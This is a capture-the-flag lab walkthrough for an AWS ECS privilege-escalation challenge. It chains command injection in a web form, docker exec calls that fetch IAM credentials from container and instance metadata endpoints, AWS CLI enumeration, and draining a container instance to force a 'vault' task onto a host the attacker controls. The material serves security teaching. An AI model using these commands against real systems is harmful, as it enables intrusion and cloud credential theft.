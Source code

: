 1. Find the command injection vulnerability in the website. The following payload could contain any bash command, it's just a POC. There is only one input field in the application, so it should be straightforward to determine where this payload goes. 

    ```bash
    ; echo 'hello world'
    ```

2. Using command injection list all of the containers on the host. You should see containers with name containing "vulnsite" and "privd". 
vulnsite is hosting the webapp that you just exploited, and privd is sleeping for a year (literally), but runs as a role that will be
relevant to us later.
    
    ```bash
   ; docker ps
   ```

   The ID for the privd container the will be the first field in the output from the following command.
    
    ```bash
   ; docker ps | grep privd
   ```

3. Using command injection get the container credentials for the privd container as well as the host ECS instance. If you've not seen the endpoints
listed below, they are very common targets. 

   ```bash
   ; docker exec <privd container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
   ; docker exec <privd container id> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/'
   ; docker exec <privd container id> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/<your-specific-ecs-agent>'
   ```
   
You can learn more about ECS Task roles here: 
https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-iam-roles.html  
And ec2 metadata here: 
https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/instancedata-data-retrieval.html

4. With the escalated credentials from the privd container, list the clusters in the account then enumerate the tasks.

   ```bash
   aws --profile <container_credentials> ecs list-clusters
   aws --profile <container_credentials> ecs list-tasks --cluster <your_cluster_name> --query taskArns --out text
   ```
   After listing all of the tasks, you can use the following commands to iterate over them and get some more information.
   
   ```bash
   # the following command will describe the target task which will include the name of the corresponding service:
   aws --profile <container_credentials> ecs describe-tasks --cluster <your_cluster_name> --tasks <target_task>
   # this command will reveal if the service is scheduled as a replica or daemon.
   aws --profile <container_credentials> ecs describe-services --cluster <your_cluster_name> --services <target_service>
   ```
   
5. This next step is the crux of the whole operation. In the previous step you will have listed out all of the tasks and their corresponding ecs instances (which are the ec2 instances that tasks, and therefore docker containers, are running on). You'll also know how each service is scheduled. We see that on a second ecs instance there is a task that we have previously did not have access to. Because that task is scheduled as a replica, ecs will attempt to rechedule it on an available ecs instance if it's current host instance goes down for some reason. We can deliberately take that instance down using the credentials we got from the host earlier, forcing it to be rescheduled onto an instance that we have more control over.

   ```bash
   aws --profile <host_credentials> ecs update-container-instances-state --cluster <your_cluster_name> --container-instances <target_container_instance> --status DRAINING
   ```

6. Wait for "Vault" container to be rescheduled, this can be checked by running docker via command injection.
    
    ```bash
    ; docker ps | grep vault
    ```

7. Using the command injection on the website get the flag from the "vault" container.

    ```bash
    ; docker exec <vault container id> ls
    ; docker exec <vault container id> cat FLAG.TXT
    ```

If you want more information about REPLICA/DAEMON scheduling read here: https://docs.aws.amazon.com/AmazonECS/latest/developerguide/ecs_services.html
If you want information on on what DRAINING means, or ecs instances in general, read here: https://docs.aws.amazon.com/AmazonECS/latest/developerguide/ECS_instances.html

